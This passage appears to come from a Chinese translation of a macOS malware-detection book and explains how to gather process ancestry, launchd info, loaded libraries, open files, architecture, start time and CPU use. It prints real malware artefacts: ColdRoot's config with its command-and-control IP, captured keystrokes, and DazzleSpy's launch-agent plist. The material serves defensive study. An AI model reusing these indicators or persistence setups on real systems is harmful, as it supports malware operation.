值得注意的是，获取进程序列号对于系统进程或后台进程来说会失败。生产代码应当考虑这种情况，例如，检查 GetProcessForPID 的返回值，或者检查 ParentPSN 键是否不存在或其值是否为零。此外，应用程序服务 API 不应从后台进程（如守护进程或系统扩展）中调用。

回想一下，当我们启动计算器时，之前讨论的方法未能确定其真正的父进程（而是返回了*launchd*或其自身）。那么，应用程序服务 API 的方法效果如何呢？首先，让我们回到通过 Finder 启动的计算器实例：

```
% **./enumerateProcesses**
...
(2726):/System/Applications/Calculator.app/Contents/MacOS/Calculator
...
parent: (1) launchd
responsible parent: (2726) Calculator
application services parent: (21264) Finder 
```

成功！现在代码能够正确识别 Finder 是启动计算器应用程序的进程。同样，如果通过 Dock 或 Spotlight 搜索栏启动计算器，代码也能识别这些方式。

你可能会好奇，为什么本节讨论了这么多不同的方法来确定进程最有用的父进程。这是因为没有一种方法是万无一失的，所以你通常需要将它们结合起来使用。首先，使用应用程序服务 API 似乎能产生最相关的结果。然而，对 GetProcessForPID 的调用可能会在某些进程中失败。在这种情况下，明智的做法是回退到 responsibility_get_pid_responsible_for_pid。但正如你所见，这有时会返回进程本身作为父进程，这并没有什么帮助。在这种情况下，你可能会想回退到经典的 e_ppid。虽然它通常只会报告父进程是*launchd*，但在很多其他情况下它也有效。例如，在之前讨论的 Lazarus 攻击中，它正确地将 Word 识别为 curl 的父进程。^(11)

### 环境信息

现在你知道如何生成真实的进程树了，让我们看看如何收集关于进程环境的信息。你可能熟悉一种方法：使用 launchctl 工具，它有一个 procinfo 命令行选项，可以返回进程的参数、代码签名信息、运行时环境等。虽然我们之前讨论过其他收集这些信息的方法，但 launchctl 可以提供一个额外的来源，并且包括其他方法无法提供的信息。

不幸的是，launchctl 并不是开源的，它的内部机制也没有文档化。在本节中，我们通过逆向工程 procinfo 选项，并在我们自己的工具中重新实现其逻辑，以获取任何进程的信息。你可以在本章的*procInfo*项目中找到这个开源实现。

> 注意

*本节中的代码灵感来源于 Jonathan Levin 的研究。*^(12) *我已根据 macOS 的新版更新了他的方案。*

在我们深入研究*procInfo*项目中的代码之前，让我们先总结一下这个方法：我们必须使用私有的 xpc_pipe_interface_routine 函数调用 launchd 引导管道。通过 ROUTINE_DUMP_PROCESS (0x2c4)以及一个包含目标进程的进程 ID 和共享内存输出缓冲区的 XPC 字典调用此函数，将返回你所需的进程信息。代码首先声明了几个需要用来发出 XPC 查询的变量（列表 1-16）。

```
xpc_object_t procInfoRequest = NULL;
xpc_object_t sharedMemory = NULL;
xpc_object_t __autoreleasing response = NULL;

int result = 0;
int64_t xpcError = 0;
void* handle = NULL;
uint64_t bytesWritten = 0;
vm_address_t processInfoBuffer = 0;

static int (*xpc_pipe_interface_routine_FP)
❶ (xpc_pipe_t, int, xpc_object_t, xpc_object_t*, int) = NULL;

❷ struct xpc_global_data* globalData = NULL;
❸ size_t processInfoLength = 0x100000; 
```

列表 1-16：声明所需变量

这些变量包括但不限于：一个函数指针（稍后将保存私有的 xpc_pipe_interface_routine 地址）❶、一个指向全局 XPC 数据结构的指针❷，以及通过逆向 launchctl 提取的长度❸。

然后，我们通过调用 xpc_shmem_create API 创建一个共享内存对象。XPC 调用将填充此对象，包含我们正在查询的目标进程的信息（见列表 1-17）。

```
vm_allocate(mach_task_self(), &processInfoBuffer,
processInfoLength, VM_FLAGS_ANYWHERE|VM_FLAGS_PURGABLE);

sharedMemory = xpc_shmem_create((void*)processInfoBuffer, processInfoLength); 
```

列表 1-17：创建共享内存对象

接下来，我们创建并初始化一个 XPC 字典。此字典必须包含我们正在查询的进程的 ID，以及我们刚刚创建的共享内存对象（见列表 1-18）。

```
pid_t pid = <some process id>;
procInfoRequest = xpc_dictionary_create(NULL, NULL, 0);

xpc_dictionary_set_int64(procInfoRequest, "pid", pid);
xpc_dictionary_set_value(procInfoRequest, "shmem", sharedMemory); 
```

列表 1-18：初始化 XPC 请求字典

然后，代码从 os_alloc_once_table 数组中检索类型为 xpc_global_data*的全局数据对象（见列表 1-19）。

```
struct xpc_global_data
{
    uint64_t a;
    uint64_t xpc_flags;
    mach_port_t task_bootstrap_port;
    xpc_object_t xpc_bootstrap_pipe;
};

struct _os_alloc_once_s
{
    long once;
    void* ptr;
};

extern struct _os_alloc_once_s _os_alloc_once_table[];

globalData = (struct xpc_global_data*)_os_alloc_once_table[1].ptr; 
```

列表 1-19：提取全局数据

该对象包含一个 XPC 管道（xpc_bootstrap_pipe），这是调用 xpc_pipe_interface_routine 函数所必需的。由于这个函数是私有的，我们必须从*libxpc*库动态解析它（见列表 1-20）。

```
#import <dlfcn.h>
...
handle = dlopen("/usr/lib/system/libxpc.dylib", RTLD_LAZY);
xpc_pipe_interface_routine_FP = dlsym(handle, "_xpc_pipe_interface_routine"); 
```

列表 1-20：解析函数指针

最后，我们准备进行 XPC 请求。如前所述，我们使用 xpc_pipe_interface_routine 函数，该函数接受诸如 XPC 引导管道、例程（如 ROUTINE_DUMP_PROCESS）和包含特定例程信息（如进程 ID 和例程输出的共享内存缓冲区）的请求字典等参数（见列表 1-21）。

```
#define ROUTINE_DUMP_PROCESS 0x2c4

result = xpc_pipe_interface_routine_FP((__bridge xpc_pipe_t)(globalData->xpc_bootstrap_pipe),
ROUTINE_DUMP_PROCESS, procInfoRequest, &response, 0x0); 
```

列表 1-21：通过 XPC 请求进程信息

如果此请求成功，即结果为零且传递给 xpc_pipe_interface_routine 的响应字典中不包含错误键，那么响应字典将包含一个键值对，键为 bytes-written，其值为写入我们添加到共享内存对象中的分配缓冲区的字节数。我们将在列表 1-22 中提取这个值。

```
bytesWritten = xpc_dictionary_get_uint64(response, "bytes-written");
```

列表 1-22：提取响应数据的大小

现在我们可以直接访问缓冲区，例如，创建一个包含目标进程所有信息的字符串对象（见列表 1-23）。

```
NSString* processInfo = [[NSString alloc] initWithBytes:(const void*)
processInfoBuffer length:bytesWritten encoding:NSUTF8StringEncoding];

printf("process info (pid: %d): %s\n",
atoi(argv[1]), processInfo.description.UTF8String); 
```

列表 1-23：将进程信息转换为字符串对象

尽管我们已将这些信息转换为字符串对象，但它们都被集中在一起，因此我们仍然需要手动解析相关部分。这个过程在这里没有覆盖，但你可以参考*procInfo*项目，它将数据提取到一个键值对的字典中。

从*launchd*返回的信息包含了大量有用的细节！为了说明这一点，运行*procInfo*以获取 DazzleSpy 的持久组件，该组件安装在*~/.local/softwareupdate*目录下，并且此实例中正以进程 ID 16776 运行：

```
% **./procInfo 16776**
process info (pid: 16776): {
    active count = 1
    path = /Users/User/Library/LaunchAgents/com.apple.softwareupdate.plist
    state = running

    program = /Users/User/.local/softwareupdate
    arguments = {
        /Users/User/.local/softwareupdate
        1
    }

    inherited environment = {
        SSH_AUTH_SOCK =>
        /private/tmp/com.apple.launchd.kEoOvPmtt1/Listeners
    }

    default environment = {
        PATH => /usr/bin:/bin:/usr/sbin:/sbin
    }
    environment = {
 XPC_SERVICE_NAME => com.apple.softwareupdate
    }

    domain = gui/501 [100005]
    ...
    runs = 1
    pid = 16776
    immediate reason = speculative
    forks = 0
    execs = 1

    spawn type = daemon (3)

    properties = partial import | keepalive | runatload |
    inferred program | system service | exponential throttling
} 
```

通过单一的 XPC 调用收集的这些进程信息，可以确认从其他来源获得的知识并提供新的细节。例如，如果你查询像 DazzleSpy 这样的启动代理或守护进程，进程信息响应中的路径键将包含负责生成该项的属性列表：

```
path = /Users/User/Library/LaunchAgents/com.apple.softwareupdate.plist
```

我们可以通过手动检查报告的属性列表（对于 DazzleSpy，它是 *com.apple.softwareupdate.plist*）来确认这一事实，并注意到指定的路径确实指向了恶意软件的二进制文件：

```
<?xml version="1.0" encoding="UTF-8"?>
...
<plist version="1.0">
<dict>
    <key>KeepAlive</key>
    <true/>
    <key>Label</key>
    <string>com.apple.softwareupdate</string>
    <key>ProgramArguments</key>
    <array>
        <string>**/Users/User/.local/softwareupdate**</string>
        <string>1</string>
    </array>
    <key>RunAtLoad</key>
    <true/>
    <key>SuccessfulExit</key>
    <true/>
</dict>
</plist> 
```

追踪进程 ID 回到触发其生成的启动项属性列表是非常有用的。为什么？嗯，为了实现持久性，大多数恶意软件会将自己安装为启动项。尽管合法软件也会以这种方式持久化，但所有这些启动项都值得检查，因为你有很大的机会在其中发现任何持久安装的恶意软件。

### 代码签名

简而言之，*代码签名*可以证明某个项是谁创建的，并验证它没有被篡改。因此，任何试图将正在运行的进程分类为恶意或良性的检测算法都应提取这些代码签名信息。你应该密切检查未签名的进程以及那些临时签名的进程，因为如今，你在 macOS 上运行的大多数合法程序都已经签名并经过公证。

说到有效签名的进程，那些属于知名软件开发商的进程很可能是良性的（供应链攻击除外）。此外，如果是 Apple 正式签署的进程，它就不会是恶意软件（尽管正如我们所见，恶意软件可以利用 Apple 的二进制文件执行恶意操作，就像 Lazarus 团伙使用 curl 下载额外恶意负载的情况一样）。

由于其重要性，整个章节专门讨论代码签名的话题。在第三章中，我们全面讨论了这一话题，应用于正在运行的进程以及磁盘镜像和软件包等项目。

### 加载的库

在尝试通过分析正在运行的进程来揭示恶意软件时，你还必须枚举任何加载的库。像 ZuRu 这样的隐蔽恶意软件不会生成独立进程，而是被加载到一个被篡改的、但在其他方面仍然合法的进程中。在这种情况下，进程的主要可执行二进制文件是良性的，尽管被修改为引用恶意库以确保它被加载。

即使恶意软件作为独立进程执行，你仍然需要枚举它加载的库，原因如下：

+   恶意软件可能会加载额外的恶意插件，你很可能需要扫描或分析它们。

+   恶意软件可能会加载合法的系统库来执行颠覆性操作。这些可以提供恶意软件能力的洞察（例如，它可能会加载用于与麦克风或摄像头接口的系统框架）。

不幸的是，由于 macOS 的安全功能，即使是签名过的、已公证的第三方安全工具也不能直接列举加载的库。幸运的是，我们可以通过使用 macOS 内置工具如 vmmap 以间接的方式做到这一点。这个工具具有几个仅限 Apple 的权限，使其能够读取远程进程的内存，并提供包括所有加载库的映射。

运行 vmmap 针对前述的 ZuRu，该程序是一个恶意版本的流行 iTerm(2)应用。它是一个很好的示例，因为它的恶意逻辑完全由名为*libcrypto.2.dylib*的动态库实现。我们将使用`-w`标志执行 vmmap，这样它就会打印出 ZuRu 映射的库的完整路径。该工具需要提供一个进程 ID，因此我们提供了 ZuRu 的 ID（在此为 932）：

```
% **pgrep iTerm2**
932

% **vmmap -w 932**
Process:         iTerm2 [932]
Path:            /Applications/iTerm.app/Contents/MacOS/iTerm2
...
==== Non-writable regions for process 932
REGION     START - END         DETAIL
__TEXT     102b2b000-103247000 /Applications/iTerm.app/Contents/MacOS/iTerm2
__LINKEDIT 103483000-103cb4000 /Applications/iTerm.app/Contents/MacOS/iTerm2
...
__TEXT     10da4d000-10da85000 /Applications/iTerm.app/Contents/Frameworks/libcrypto.2.dylib
__LINKEDIT 10da91000-10dacd000 /Applications/iTerm.app/Contents/Frameworks/libcrypto.2.dylib
... 
```

在这段简化的输出中，你可以看到二进制文件的主映像（iTerm2），以及动态库，如动态加载器*dyld*和恶意库*libcrypto.2.dylib*的映射。

我是如何确定*libcrypto.2.dylib*是恶意组件的？在注意到是 Jun Bi 而非合法开发者签署了这个版本的 iTerm2 后，我将它加载的库列表与原始应用程序加载的库列表进行了对比。唯一的不同之处就是*libcrypto.2.dylib*。静态分析确认这个异常的库确实是恶意的。

因为我们没有读取远程进程内存所需的 Apple 私有权限（包括所有加载的库），所以我们将简单地执行 vmmap 并解析其输出。我的一些 Objective-See 工具，如`TaskExplorer`，^(13)采用了这种方法。你还可以在名为`getLibraries`的函数中找到实现此过程的代码，该函数位于*enumerateProcesses*项目中。

首先，我们需要一个能够执行外部二进制文件并返回其输出的辅助函数（列表 1-24）。

```
#define STDERR @"stdError"
#define STDOUT @"stdOutput"

#define EXIT_CODE @"exitCode"

NSMutableDictionary* execTask(NSString* binaryPath, NSArray* arguments) {
    NSTask* task = nil;
    NSPipe* stdOutPipe = nil;
    NSFileHandle* stdOutReadHandle = nil;
    NSMutableDictionary* results = nil;
    NSMutableData* stdOut = nil;

 results = [NSMutableDictionary dictionary];
    task = [NSTask new];
  ❶ stdOutPipe = [NSPipe pipe];
    stdOutReadHandle = [stdOutPipe fileHandleForReading];
    stdOutData = [NSMutableData data];
  ❷ task.standardOutput = stdOutPipe;
    task.launchPath = binaryPath;

    if(nil != arguments) {
        task.arguments = arguments;
    }

    [task launch];

    while(YES == [task isRunning]) {
      ❸ [stdOutData appendData:[stdOutReadHandle readDataToEndOfFile]];
    }

    [stdOutData appendData:[stdOutReadHandle readDataToEndOfFile]];
    if(0 != stdOutData.length) {
      ❹ results[STDOUT] = stdOutData;
    }

    results[EXIT_CODE] = [NSNumber numberWithInteger:task.terminationStatus];

    return results;
} 
```

列表 1-24：执行任务并捕获其输出

`execTask`函数通过苹果的 NSTask API 执行一个任务，使用指定的参数。它会等待直到子任务完成，并返回一个包含多个键值对的字典，其中包括任何由命令生成的输出（输出到标准输出）。为了捕获任务的输出，代码初始化一个管道对象（NSPipe）❶，然后将其设置为任务的标准输出❷。当任务生成输出时，代码从管道的文件句柄❸读取数据并将其附加到数据缓冲区中。一旦任务退出，任何剩余的输出都会被读取，数据缓冲区将被保存到结果字典中，并返回给调用者❹。

函数的调用者，例如 `getLibraries`，可以通过传递任何二进制文件的路径以及相关参数来调用它。如果需要，我们可以将其输出转换为字符串对象（列表 1-25）。

```
pid_t pid = <some process id>;

NSMutableDictionary* results = execTask(@"/usr/bin/vmmap", @[@"-w", [[NSNumber
numberWithInt:pid] stringValue]]);

NSString* output = [[NSString alloc] initWithData:results[STDOUT]
encoding:NSUTF8StringEncoding]; 
```

列表 1-25：将任务输出转换为字符串对象

然后我们可以通过多种方式解析 vmmap 输出，例如逐行解析或使用正则表达式。列表 1-26 展示了一种技术。

```
NSMutableArray* dylibs = [NSMutableArray array];

for(NSString* line in
[output componentsSeparatedByCharactersInSet:[NSCharacterSet newlineCharacterSet]]) {
    if(YES != [line hasPrefix:@"__TEXT"]) {
        continue;
    }
} 
```

列表 1-26：解析以 __TEXT 开头的输出行

在这里，我们搜索以 __TEXT 开头的行，因为所有在 vmmap 输出中动态加载的库都以这种类型的内存区域开头。这些数据行还包含已加载库的完整路径，这正是我们想要的。列表 1-27 在列表 1-26 中展示的 for 循环中提取这些路径。

```
NSRange pathOffset = {0};
NSString* token = @"SM=COW";

pathOffset = [line rangeOfString:token];
if(NSNotFound == pathOffset.location) {
    continue;
}

dylib = [[line substringFromIndex:pathOffset.location+token.length]
stringByTrimmingCharactersInSet:[NSCharacterSet whitespaceCharacterSet]];

if(dylib != nil) {
    [dylibs addObject:dylib];
} 
```

列表 1-27：提取动态库的路径

代码首先查找*写时复制*共享模式（"SM=COW"），它位于路径之前。如果找到了，接着利用共享模式后面的偏移量提取路径本身。此时，dylibs 数组应该包含目标进程加载的所有动态库。

现在让我们在运行我们之前看到的 ZuRu 实例时执行*enumerateProcesses*：

```
% **./enumerateProcesses**
...
(932):/Applications/iTerm.app/Contents/MacOS/iTerm2
...
Dynamic libraries for process iTerm2 (932):
(
"/Applications/iTerm.app/Contents/MacOS/iTerm2",
"/usr/lib/dyld",
"/Applications/iTerm.app/Contents/Frameworks/**libcrypto.2.dylib**",
...
) 
```

如你所见，我们能够提取出 ZuRu 地址空间中加载的所有库，包括恶意的*libcrypto.2.dylib*。

请注意，在最新版本的 macOS 中，系统框架（本质上是一种动态加载的库）已经被移动到称为*dyld_shared_cache*的地方。然而，vmmap 仍然会报告框架的原始路径。这个点值得注意，主要有两个原因。首先，如果你想检查框架的代码，你需要从共享缓存中提取它。^(14)

其次，如果你已经实现了检测自删除框架库的逻辑，那么你应该为这些框架库做出例外处理。否则，你的代码会报告它们已经被删除。检查某个框架是否已经被移动到缓存中的一种简单方法是调用苹果的*dyld_shared_cache_contains_path* API。

### 打开的文件

正如枚举已加载的库可以提供关于进程能力的洞察一样，枚举任何打开的文件也可以提供类似的帮助。这项技术可以帮助我们识别被称为 ColdRoot 的恶意软件，这是一种提供远程攻击者对受感染系统完全控制的 RAT。^(15) 如果你列出系统上每个进程打开的所有文件，你会发现有一个名为*conx.wol*的奇怪文件，它是由名为*com.apple.audio.driver.app*的进程打开的。仔细检查后，会发现该进程并非苹果的进程，实际上它是恶意软件（ColdRoot），*conx.wol*是该恶意软件的配置文件，并包含对防御者非常重要的信息，包括命令与控制服务器的地址：

```
% **cat com.apple.audio.driver.app/Contents/MacOS/conx.wol**
{
    "PO": 80,
    "HO": "45.77.49.118",
    "MU": "CRHHrHQuw JOlybkgerD",
    "VN": "Mac_Vic",
    "LN": "adobe_logs.log",
    "KL": true,
    "RN": true,
    "PN": "com.apple.audio.driver"
} 
```

接下来，你会遇到恶意软件打开的另一个文件，*adobe_logs.log*，它似乎包含捕获的按键信息，包括一个银行账户的用户名和密码：

```
bankofamerica.com
[enter]
user
[tab]
hunter2
[enter] 
```

你可能在想，如何仅通过编程方法来确定这些文件是否是恶意的。说实话，这会非常复杂。可能需要创建正则表达式来查找 URL、IP 地址，或者看起来像是捕获的按键，比如控制字符。然而，更有可能的是，其他检测逻辑已经将这个未签名的打包恶意软件标记为可疑，并将其标记为需要更仔细的检查，理想情况下由人工恶意软件分析师来检查。例如，ColdRoot 就是未签名、打包并且持久化的。在这种情况下，代码可以为分析师提供任何由可疑进程打开的文件列表以及文件内容。然后，分析师可以手动确认标记的进程是否为恶意软件，并使用这些文件来初步了解它是如何工作的。

本节我们讨论两种通过编程方式枚举进程打开的所有文件的方法。

#### proc_pidinfo

传统的枚举进程当前打开的文件的方法涉及 proc_pidinfo API。简而言之，调用这个 API 并使用 PROC_PIDLISTFDS 标志，将返回一个给定进程的打开文件描述符列表。让我们通过一个代码示例来演示如何使用这个 API。你可以在*enumerateProcesses*项目中的一个名为 getFiles 的函数中找到完整的代码。我们首先通过获取进程的文件描述符（列表 1-28）开始。

```
❶ int size = proc_pidinfo(pid, PROC_PIDLISTFDS, 0, 0, 0);

❷ struct proc_fdinfo* fdInfo = (struct proc_fdinfo*)malloc(size);

❸ proc_pidinfo(pid, PROC_PIDLISTFDS, 0, fdInfo, size); 
```

列表 1-28：获取进程文件描述符的列表

该代码使用目标进程的进程 ID、PROC_PIDLISTFDS 标志和一系列零值调用 proc_pidinfo API，以获取保存进程文件描述符列表所需的内存大小 ❶。然后，我们分配一个足够大小的缓冲区来保存 proc_fdinfo 结构的指针 ❷。接着，为了获取实际的描述符列表，我们重新调用 proc_pidinfo API，这次传入新分配的缓冲区及其大小 ❸。

现在我们已经有了打开的文件描述符列表，接下来让我们检查它们。常规文件应具有 PROX_FDTYPE_VNODE 类型的描述符。列表 1-29 提取这些文件的路径。

```
NSMutableArray* files = [NSMutableArray array];

  ❶ for(int i = 0; i < (size/PROC_PIDLISTFD_SIZE); i++) {
        struct vnode_fdinfowithpath vnodeInfo = {0};

 ❷ if(PROX_FDTYPE_VNODE != fdInfo[i].proc_fdtype) {
            continue;
        }

      ❸ proc_pidfdinfo(pid, fdInfo[i].proc_fd,
        PROC_PIDFDVNODEPATHINFO, &vnodeInfo, PROC_PIDFDVNODEPATHINFO_SIZE);

      ❹ [files addObject:[NSString stringWithUTF8String:vnodeInfo.pvip.vip_path]];
} 
```

列表 1-29：从文件描述符中提取路径

使用 for 循环，我们遍历检索到的文件描述符 ❶。对于每个描述符，我们检查它是否为 PROX_FDTYPE_VNODE 类型，并跳过其他类型 ❷。然后，我们调用 proc_pidfdinfo API，并传入各种参数，例如进程 ID、文件描述符和 PROC_PIDFDVNODEPATHINFO，以及一个类型为 vnode_fdinfowithpath 的输出结构及其大小 ❸。这应该返回关于指定文件描述符的信息，包括它的路径。一旦调用完成，我们可以在 vnode_fdinfowithpath 结构中的 vip_path 成员找到路径。我们提取该成员，将其转换为字符串对象，并将其保存到数组中 ❹。

#### lsof

另一种列举进程打开的文件的方法是模仿 macOS 的 Activity Monitor 工具。虽然这种方法依赖于外部的 macOS 可执行文件，但它通常比 proc_pidinfo 方法生成更全面的列表。

在 Activity Monitor 中选择一个进程后，用户可以点击信息图标，然后选择“打开文件和端口”标签，查看该进程打开的所有文件。通过逆向工程 Activity Monitor，我们可以了解到，它通过执行 lsof 来实现这一行为，lsof 是 macOS 内置的一个列出打开文件的工具。

您可以通过进程监视器确认 Activity Monitor 使用了 lsof，这个工具我将在第八章中教您如何创建。当用户点击“打开文件和端口”标签时，进程监视器将显示执行 lsof 的命令行标志 -Fn 和 -p：

```
# **./ProcessMonitor.app/Contents/MacOS/ProcessMonitor**

{
  "event" : "ES_EVENT_TYPE_NOTIFY_EXEC",
  "process" : {
    "pid" : 86903
    "name" : **"lsof",**
    "path" : "/usr/sbin/lsof",

    "arguments" : [
      "/usr/sbin/lsof",
 **"-Fn",**
 **"-p",**
      "590"
 ],
...
} 
```

-p 标志指定进程的 ID，而 -F 标志选择要处理的字段。当该标志后跟 n 时，工具只会打印出文件路径，这正是我们想要的。

让我们按照 Activity Monitor 的方法执行给定进程的 lsof 二进制文件，然后以编程方式解析其输出。您可以在 *enumerateProcesses* 项目中找到实现此方法的完整代码，它位于名为 getFiles2 的函数中。在示例 1-30 中，我们首先使用 -Fn 和 -p 标志以及进程 ID 来执行 lsof。

```
NSString* pidAsString = [NSNumber numberWithInt:pid].stringValue;
NSMutableDictionary* results = execTask(@"/usr/sbin/lsof", @[@"-Fn", @"-p", pidAsString]); 
```

示例 1-30：以编程方式执行 lsof

我们重用在示例 1-24 中创建的 execTask 函数来运行该命令。然而，由于命令行参数作为字符串传递给外部进程，我们必须首先将目标进程 ID 转换为字符串。回想一下，execTask 函数会等待直到被启动的任务完成，捕获任何输出并返回给调用者。示例 1-31 展示了一种解析 lsof 输出的方法。

```
NSMutableArray* files = [NSMutableArray array];

NSArray* lines = [[[NSString alloc] initWithData:results[STDOUT] ❶
encoding:NSUTF8StringEncoding] componentsSeparatedByCharactersInSet:[NSCharacterSet
newlineCharacterSet]]; ❷

for(NSString* result in lines) {
    if(YES == [result hasPrefix:@"n"]) { ❸
        NSString* file = [result substringFromIndex:1];
        [files addObject:file];
    }
} 
```

示例 1-31：解析 lsof 输出

输出存储在名为 results 的字典中，您可以通过键 STDOUT ❶ 访问它。您可以按换行符拆分输出，以便逐行处理 ❷。然后遍历每一行，查找包含文件路径的行（这些行以 n 为前缀） ❸，并将其保存。

### 其他信息

当然，您可能还想从正在运行的进程中提取其他信息，以帮助您检测 macOS 系统中的恶意代码。本章通过一些示例来总结，探讨进程的以下细节：其执行状态、执行架构、启动时间以及 CPU 使用率。您还可能希望确定其网络状态，相关内容将在第四章中讲解。

#### 执行状态

假设你已经获取了一个进程 ID 的列表。你可能还想进一步查询这个进程（例如，构建进程的祖先树或计算代码签名信息）。但是，如果该进程已经退出，比如在短暂的 shell 命令情况下，怎么办呢？这是一个重要的信息，至少，你会想理解为什么任何进一步查询该进程的尝试会失败。

确定一个进程是否已经终止的一个简单方法是尝试向它发送一个信号。你可以通过 kill 系统 API，并设置信号类型为 0 来做到这一点，正如在清单 1-32 中所示。

```
kill(targetPID, 0);
if(ESRCH == errno) {
    // Code placed here will run only if the process is dead.
} 
```

清单 1-32：检查进程是否已终止

这不会杀死任何存活的进程；实际上，它是完全无害的。然而，如果一个进程已经退出，API 会将 errno 设置为 ESRCH（没有此进程）。

如果进程已经变成僵尸进程怎么办？你可以使用 sysctl API 来填充一个 kinfo_proc 结构，正如在清单 1-33 中所示。

```
int mib[4] =  {CTL_KERN, KERN_PROC, KERN_PROC_PID, pid};
size_t size = sizeof(procInfo);

sysctl(mib, 4, &procInfo, &size, NULL, 0);
if(SZOMB == (SZOMB & procInfo.kp_proc.p_stat)) {
    // Code placed here will run only if the process is a zombie.
} 
```

清单 1-33：检查进程是否为僵尸进程

这个结构包含一个名为 p_stat 的标志。如果该标志设置了 SZOMB 位，那么你就知道该进程是一个僵尸进程。

#### 执行架构

随着 Apple Silicon 的引入，macOS 现在支持 Intel（x86_64）和 ARM（ARM64）二进制文件。因为许多分析工具是针对文件架构的，所以识别进程的架构信息非常重要。此外，尽管开发者已经重新编译了大多数合法软件，以原生方式运行在 Apple Silicon 上，但恶意软件仍在赶超；令人惊讶的是，它仍然有相当一部分是以 Intel 二进制文件形式分发的。2022 年发现的一些仅以 Intel 二进制文件形式分发的恶意软件示例包括 DazzleSpy、rShell、oRat 和 CoinMiner：

```
% **file DazzleSpy/softwareupdate**
DazzleSpy/softwareupdate: Mach-O 64-bit executable **x86_64** 
```

因此，你可能想要比 ARM 或通用二进制文件更仔细地查看 Intel 二进制文件。

不幸的是，识别架构信息并不像仅仅检查主机的 CPU 类型那样简单，因为在 Apple Silicon 系统上，Intel 二进制文件仍然可以执行，尽管是通过 Rosetta 转译的。相反，你可以跟踪活动监视器所采用的方法。清单 1-34 展示了这种方法，你可以在 *enumerateProcesses* 项目的 getArchitecture 函数中找到它。

```
enum Architectures{ArchUnknown, ArchAppleSilicon, ArchIntel};

NSUInteger getArchitecture(pid_t pid) {
    NSUInteger architecture = ArchUnknown;
    cpu_type_t type = -1;
    size_t size = 0;
    int mib[CTL_MAXNAME] = {0};
    size_t length = CTL_MAXNAME;
    struct kinfo_proc procInfo = {0};

  ❶ sysctlnametomib("sysctl.proc_cputype", mib, &length);
    mib[length++] = pid;

    size = sizeof(cpu_type_t);
  ❷ sysctl(mib, (u_int)length, &type, &size, 0, 0);

  ❸ if(CPU_TYPE_X86_64 == type) {
        architecture = ArchIntel;
    } else if(CPU_TYPE_ARM64 == type) {
      ❹ architecture = ArchAppleSilicon;
        mib[0] = CTL_KERN;
        mib[1] = KERN_PROC;
        mib[2] = KERN_PROC_PID;
        mib[3] = pid;
        size = sizeof(procInfo);

        sysctl(mib, 4, &procInfo, &size, NULL, 0);
      ❺ if(P_TRANSLATED == (P_TRANSLATED & procInfo.kp_proc.p_flag)) {
            architecture = ArchIntel;
        }
    }
    return architecture;
} 
```

清单 1-34：获取进程的架构

这段代码以及活动监视器，首先使用 "proc_cputype" 字符串和 sysctlnametomib 和 sysctl API 来确定正在运行的进程的 CPU 类型。请注意，传递给 *sysctlnametomib* 的数组大小为 CTL_MAXNAME，这是苹果定义的常量，表示 MIB 名称中组件的最大数量。如果返回的是 Intel（CPU_TYPE_X86_64），则表示该进程以 x86_64 形式运行。然而，在 Apple Silicon 系统上，这些进程仍然可能由基于 Intel 的二进制文件支持，这些二进制文件通过 Rosetta 转换为 ARM 架构。为了检测这种情况，苹果检查进程的 p_flags（通过调用 sysctl 获取）。如果这些标志设置了 P_TRANSLATED 位，活动监视器将架构设置为 Intel。

在 *enumerateProcesses* 项目中，您会发现一个名为 getArchitecture 的函数。它接受一个进程 ID 并返回其架构。首先，我们通过 sysctlnametomib API 填充一个数组，传入名称 sysctl.proc_cputype ❶。然后，在添加目标进程 ID 后，我们使用初始化的数组调用 sysctl API 以获取该进程的 CPU 类型 ❷。如果返回的 CPU 类型是 CPU_TYPE_X86_64，代码将架构设置为 Intel ❸。另一方面，如果目标进程的 CPU 类型是 CPU_TYPE_ARM64，代码将默认设置为 Apple Silicon ❹。如前所述，该进程仍可能是基于 Intel 的二进制文件，尽管已经被转换。为了检测这种情况，代码会检查进程的 p_flags 是否设置了 P_TRANSLATED 位。如果是，它将架构设置为 Intel ❺。

#### 启动时间

在查询正在运行的进程时，了解每个进程的启动时间可能会很有帮助。这可以帮助判断一个进程是系统启动时自动启动的，还是稍后由用户启动的。自动启动的进程可能是持续安装的，如果这些进程不属于操作系统，您可能需要仔细检查它们。

要确定一个进程的启动时间，我们可以再次使用可靠的 sysctl API。列表 1-35 显示了 *enumerateProcesses* 项目中的 getStartTime 函数，该函数接受一个进程 ID 并返回该进程的启动时间。

```
NSDate* getStartTime(pid_t pid) {
    NSDate* startTime = nil;
    struct timeval timeVal = {0};
    struct kinfo_proc processStruct = {0};
    size_t procBufferSize = sizeof(processStruct);

    int mib[4] = {CTL_KERN, KERN_PROC, KERN_PROC_PID, pid};

    sysctl(mib, 4, &processStruct, &procBufferSize, NULL, 0); ❶
    timeVal = processStruct.kp_proc.p_un.__p_starttime; ❷

    return [NSDate dateWithTimeIntervalSince1970:timeVal.tv_sec + timeVal.tv_usec / 1.0e6]; ❸
} 
```

列表 1-35：获取进程的启动时间

我们调用 sysctl 来填充一个 kinfo_proc 结构体 ❶。该结构体将包含一个名为 p_starttime 的 timeval 结构体 ❷。然后，我们将这个 Unix 时间戳转换为一个更易管理的日期对象，并将其返回给调用者 ❸。

#### CPU 利用率

我们通过查看如何计算给定进程的 CPU 利用率来结束这一章。虽然这不是一个万无一失的启发式方法，但它可能有助于检测潜伏的加密货币挖矿程序，这些程序往往会最大化系统资源的使用。

要计算 CPU 利用率，首先调用 proc_pid_rusage API，该 API 返回给定进程 ID 的使用信息。此 API 在 *libproc.h* 中声明如下：

```
int proc_pid_rusage(int pid, int flavor, rusage_info_t* buffer);
```

`flavor`参数可以设置为常量`RUSAGE_INFO_V0`，最后一个参数是输出缓冲区，用于存储资源信息缓冲区，其类型应为`rusage_info_v0`。

在列表 1-36 中，我们在*enumerateProcesses*项目的`getCPUUsage`函数中，调用了`proc_pid_rusage`两次，并且在调用之间设置了延迟（时间差）。然后我们计算第一次和第二次调用之间的资源信息差异。这个代码灵感来自 Stack Overflow 上的一篇帖子。^(16)

```
struct rusage_info_v0 resourceInfo_1 = {0};
struct rusage_info_v0 resourceInfo_2 = {0};

❶ proc_pid_rusage(pid, RUSAGE_INFO_V0, (rusage_info_t*)&resourceInfo_1);

sleep(delta);

❷ proc_pid_rusage(pid, RUSAGE_INFO_V0, (rusage_info_t*)&resourceInfo_2);

❸ int64_t cpuTime = (resourceInfo_2.ri_user_time - resourceInfo_1.ri_user_time)
+ (resourceInfo_2.ri_system_time - resourceInfo_1.ri_system_time); 
```

列表 1-36：计算一个进程在五秒时间差内的 CPU 时间

